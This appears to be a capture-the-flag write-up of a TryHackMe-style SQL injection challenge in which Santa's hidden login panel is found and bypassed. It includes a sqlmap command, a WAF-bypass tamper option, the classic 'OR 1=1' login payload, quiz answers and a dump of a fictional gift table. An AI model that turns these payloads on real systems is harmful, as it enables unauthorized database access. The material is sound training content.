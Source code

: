 We can then use this request in SQLMap:

`sqlmap -r filename`

SQLMap will automatically translate the request and exploit the database for you.

**Challenge**

Visit the vulnerable application in Firefox, find Santa's secret login panel and bypass the login. Use some of the commands and tools covered throughout today's task to answer Questions #3 to #6.

Santa reads some documentation that he wrote when setting up the application, it reads:

Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using `--tamper=space2comment`

**Resources**

- Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)
- In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

Without using directory brute forcing, what's Santa's secret login panel?

`/santapanel`

Visit Santa's secret login panel and bypass the login using SQLi

- `admin' OR 1=1 --`
- `admin`

`No answer needed`

How many entries are there in the gift database?

```config
Database: SQLite_masterdb
Table: sequels
[22 entries]
+-------------+-----+----------------------------+
| kid         | age | title                      |
+-------------+-----+----------------------------+
| James       | 8   | shoes                      |
| John        | 4   | skateboard                 |
| Robert      | 17  | iphone                     |
| Michael     | 5   | playstation                |
| William     | 6   | xbox                       |
| David       | 6   | candy                      |
| Richard     | 9   | books                      |
| Joseph      | 7   | socks                      |
| Thomas      | 10  | 10 McDonalds meals         |
| Charles     | 3   | toy car                    |
| Christopher | 8   | air hockey table           |
| Daniel      | 12  | lego star wars             |
| Matthew     | 15  | bike                       |
| Anthony     | 3   | table tennis               |
| Donald      | 4   | fazer chocolate            |
| Mark        | 17  | wii                        |
| Paul        | 9   | github ownership           |
| James       | 8   | finnish-english dictionary |
| Steven      | 11  | laptop                     |
| Andrew      | 16  | rasberry pie               |
| Kenneth     | 19  | TryHackMe Sub              |
| Joshua      | 12  | chair                      |
+-------------+-----+----------------------------+
```
